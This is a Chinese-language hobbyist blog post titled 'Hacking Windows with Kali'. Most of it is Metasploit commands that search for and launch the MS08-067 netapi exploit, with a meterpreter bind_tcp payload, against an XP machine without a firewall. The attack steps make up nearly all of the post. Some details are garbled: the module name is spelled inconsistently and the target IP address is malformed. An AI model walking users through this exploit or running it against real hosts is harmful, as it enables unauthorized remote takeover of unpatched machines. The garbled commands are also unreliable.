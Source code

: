 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://www.kali.org/wp-content/uploads/2019/02/kali-release-2019-600x284.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }}/kalihack/01.png)

### 02. 搜索Xp漏洞
也正是msf是一个安全渗透软件，所以我们可以查看漏洞。输入:
```msf
search platform:windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
使用`info *内容名*`可以来查看该内容的详细解说。
![]({{ site.imgbed }}/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
然后你会发现提示符旁边多了个`exploit(windows/smb/ms08_067-netapi)`的东西，表示使用成功。  
我们输入:
```msf
set payload windows/meterpreter/bind_tcp
```
设置载荷。  
另外，我们要攻击Xp主机，需要先提前知道Xp的IP地址。知道后，回到你的kali前，输入:
```msf
set RHOST 192.1.104
```
这里是设定控制主机的ip地址，RHOST可以说是全写Remote Host。  
做完这些后，你就可以开始hack了！输入
```msf
exploit
```
